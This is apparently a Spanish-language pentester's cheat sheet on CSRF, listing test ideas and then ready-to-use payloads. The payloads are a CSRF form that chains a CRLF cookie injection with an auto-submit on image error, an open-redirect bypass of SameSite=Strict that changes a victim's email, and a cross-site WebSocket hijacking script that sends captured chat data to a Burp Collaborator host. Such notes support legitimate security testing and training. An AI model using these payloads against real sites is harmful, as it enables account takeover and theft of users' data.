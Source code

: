 --  -
## **Cosas a testear**
1. Ver si borrando el csrf token se puede de igual manera modificar los campos CRUD.
2. Cambiar el metodo utilizado y agregar un **`&_method=POST`** para ver de engañar al servidor y sobreescribir el metodo.
3. Probar reutilizando el token de otro usuario sin haber sido utilizado previamente.



--- -
## **Payloads**
- Intentamos cargar una imagen la cual intenta hacer un search para así setear como cookie un csrfkey valido y la cookie Samesite=None para que no joda con el tema de los dominios cruzados. La carga de esa imagen va a generar un error, por lo que en ese error subimos el form con todo ya seteado previamente.
```html
<form action="https://URL/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="kike@kike.com" />
    <input type="hidden" name="csrf" value="YuqS3GNMMQ4pMjgJueYf1S5GdHgGV4E3" />
    <input type="submit" value="Submit request" />
</form>

<img src="https://URL/?search=test%0d%0aSet-Cookie:%20csrfKey=BfSlrsokL2VXRM9P5dfS58XmlkZG9Hzp%3b%20Samesite=None" onerror="document.forms[0].submit();">
```

- Aprovechando de un open-redirect para bypassear la restriccion Samesite=Strict
```html
<script>
    location="https://URL/post/comment/confirmation?postId=../my-account/change-email%3femail=juansero@kike.com%26submit=1";
</script>
```

- Exfiltracion de datos mediante el uso de websockets
```javascript
<script>
	var ws = new WebSocket("https://URL/chat");
	
	ws.onopen = function() {
	    ws.send("READY");
	};
	
	ws.onmessage = function(info) {
		    fetch("https://BURP-COLLABORATOR/?data=" + btoa(info.data));
	};
</script>
```